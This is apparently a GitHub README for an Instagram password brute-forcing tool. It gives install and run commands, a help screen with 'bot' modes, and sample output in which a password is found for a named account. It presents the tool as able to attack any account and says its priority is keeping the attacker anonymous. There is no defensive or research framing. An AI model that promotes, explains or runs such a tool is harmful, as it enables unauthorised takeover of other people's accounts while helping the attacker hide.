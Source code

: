 # Instagram Bruter

[![Version](https://img.shields.io/badge/Version-v2.1.1-blue)]()
[![Python](https://img.shields.io/badge/Python-v3.6%2B-blue)]()
[![Discord](https://img.shields.io/badge/Discord-server-blue)](https://discord.gg/C6AFrWQ)
[![Donate](https://img.shields.io/badge/PayPal-donate-orange)](https://www.paypal.me/Msheikh03)

This program will brute force any Instagram account you send it its way. Just give it a target, a password list and a mode then press enter and forget about it. No need to worry about anonymity when using this program, its highest priority is your anonymity, it only attacks when your identity is hidden.


### Requirements

-   Python _v3.x.x_

### Install Dependencies

```
pip3 install -r requirements.txt
```

### Help

```
C:\Users\Mohamed\Desktop\Instagram>python3 instagram.py -h
usage: instagram.py [-h] [-m MODE] username wordlist

positional arguments:
  username              email or username
  wordlist              password list

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots
```

### Usage

```
python3 instagram.py <username> <wordlist> -m <mode>
```

### Run

```
[-] Wordlist: passwords.txt
[-] Username: cyberpredators
[-] Password: 452
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
```

### Stop

```
[-] Wordlist: pass.lst
[-] Username: cyberpredators
[-] Password: cyber234xuse
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: cyberpredators
[+] Password: cyber234xuse
```
